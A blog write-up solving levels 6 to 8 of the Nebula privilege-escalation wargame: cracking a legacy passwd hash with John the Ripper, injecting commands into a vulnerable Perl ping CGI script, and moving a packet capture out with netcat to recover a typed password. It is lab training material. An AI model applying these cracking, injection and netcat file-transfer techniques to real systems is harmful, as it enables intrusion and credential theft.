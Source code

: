 ```yaml
---
title: "Writeup: Nebula (level 6 - level 8)"
date: 2020-12-19T16:05:18+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/).

<br>

## Level 6

The description of Level 6 is provided as follows.

```
The flag06 account credentials came from a legacy unix system.

To do this level, log in as the level06 account with the password level06. 
Files for this level can be found in /home/flag06.
```

If you are not familiar with the password file (/etc/passwd) and shadow file (/etc/shadow) in the Unix-based system, you can check this [post](https://chuang76.github.io/posts/users_and_groups/) I wrote before. In this challenge, we are going to use the password file to get the flag. 

Let's check the contents of /etc/passwd first. The second field is about password information, i.e., encrypted password. In the modern system, the second field is typically stored as `x`, which means the actual content is maintained in another file called /etc/shadow.

![](https://github.com/chuang76/image/blob/master/06-1.PNG?raw=true)

However, this is a legacy Unix system, the password is not "hidden" in the shadow file. So we can use [John The Ripper](https://zh.wikipedia.org/wiki/John_The_Ripper), a free crafting passwords tool to decode the password. 

```
$ cat passwd
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh

$ john passwd
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (flag06)
1g 0:00:00:00 100% 2/3 20.00g/s 15060p/s 15060c/s 15060C/s 123456..marley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now, we have the decoded password, i.e., "hello". Let's use it to log in as account flag06 and get the flag. 

![](https://github.com/chuang76/image/blob/master/06-2.PNG?raw=true)

<br>

## Level 7

Here is the description of Level 7.

```
The flag07 user was writing their very first perl program that allowed them to 
ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. 
Files for this level can be found in /home/flag07.
```

The contents in /home/flag07 can be displayed as follows. 

![](https://github.com/chuang76/image/blob/master/07-1.PNG?raw=true)

Let's view the contents of the file index.cgi. It is a CGI script written in Perl. [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) (Common Gateway Interface) is a specification for web servers to execute programs like command-line running on a server that generates dynamic web pages. As you can see, we need to provide the parameter Host to index.cgi. Then, the ping result will be displayed on the screen. We can check that if index.cgi works successfully or not.

![](https://github.com/chuang76/image/blob/master/07-3.PNG?raw=true)

```
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

Subsequently, let's view the contents of the file thttpd.conf. [Thttpd](https://en.wikipedia.org/wiki/Thttpd) is a simple web server, and thttpd.conf is its configure file. Here is the part of thttpd.conf. As you can see, thttpd is listening to the port 7007, running with our target account fla07, and it supports the CGI program, index.cgi. 

```
port=7007
dir=/home/flag07
user=flag07
cgipat=**.cgi
```

So, we can use wget command to retrieve the response. For example, we can get the result of whoami. Note that the semicolon (;) character should be encoded as "%3B" in URL. 

![](https://github.com/chuang76/image/blob/master/07-4.PNG?raw=true)

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/07-5.PNG?raw=true)

<br>

## Level 8

The description of Level 8 is provided as follows. 

```
World readable files strike again. Check what that user was up to, 
and use it to log into flag08 account.

To do this level, log in as the level08 account with the password level08. 
Files for this level can be found in /home/flag08.
```

Here is the contents of the directory /home/flag08. [Tcpdump](https://en.wikipedia.org/wiki/Tcpdump) is a free tool that allows users to capture packets. As you can see, capture.pcap is a tcpdump capture file. It is a file that contains packet information. 

![](https://github.com/chuang76/image/blob/master/08-1.PNG?raw=true)

The file capture.pcap is not human-readable if we try to view its contents with cat command. Instead, we should use tcpdump -r to view the contents.  

![](https://github.com/chuang76/image/blob/master/08-2.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/08-3.PNG?raw=true)

Next, we are going to analyze these packet information. We can use [Wireshark](https://en.wikipedia.org/wiki/Wireshark), a powerful packet analyzer, to analyze the file. Since we don't have the permission to install the tool, we are not able to use Wireshark on Nebula. So let's transfer the captured file to our personal machine (e.g. in my case is Kali Linux), then analyze the file on our personal machine.  

If you are not familiar that how to make two virtual machines communication, you can check this [video](https://www.youtube.com/watch?v=vReAkOq-59I). After setting up the network, we can use [netcat](https://en.wikipedia.org/wiki/Netcat) (nc) command to transfer the file as follows. That is, the machine is running nc in listening mode on port 9527.

```
$ nc -l -p 9527 > capture.pcap
```

Subsequently, run the following command to make Nebula send the file to our personal machine. The IP address may be different depends on different machine and setting, you can check the related information via ifconfig command. The IP address of my personal machine is 192.168.100.6. 

```
$ nc 192.168.100.6 9527 < /home/flag08/capture.pcap
```

Open Wireshark on Kali Linux. 

![](https://github.com/chuang76/image/blob/master/08-4.PNG?raw=true)

Follow TCP stream, as you can see, it shows Password: backdoor...00Rm8.ate. However, the dot symbol does not represent the "dot" literally. It means some characters that are non-printable on Wireshark. 

![](https://github.com/chuang76/image/blob/master/08-5.PNG?raw=true)

Let's move on. We need to figure out what is the actual password. We can start at the No. 43 packet, which contains the character Password:. 

![](https://github.com/chuang76/image/blob/master/08-8.PNG?raw=true)

Then, we can focus on what character is transfer from 59.233.235.218 (the user who types the password) to 59.233.235.223. In the Windows system, the key Enter is represented as carriage return (CR, 0x0d) and line feed (LF, 0x0a). The characters that ends at 0x0d and 0x0a can be collected as follows. 

```
'b', 'a', 'c', 'k', 'd', 'o', 'o', 'r', 0x7f, 0x7f, 0x7f, '0', '0', 'R', 'm', '8', 0x7f, 'a', 't', 'e'
```

After checking the ASCII table, we can know that 0x7f means delete. Hence, the actual password is back00Rmate. 

```
backdoor
     ^^^      delete 
back00Rm8
        ^     delete
back00Rmate 
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/08-7.PNG?raw=true)

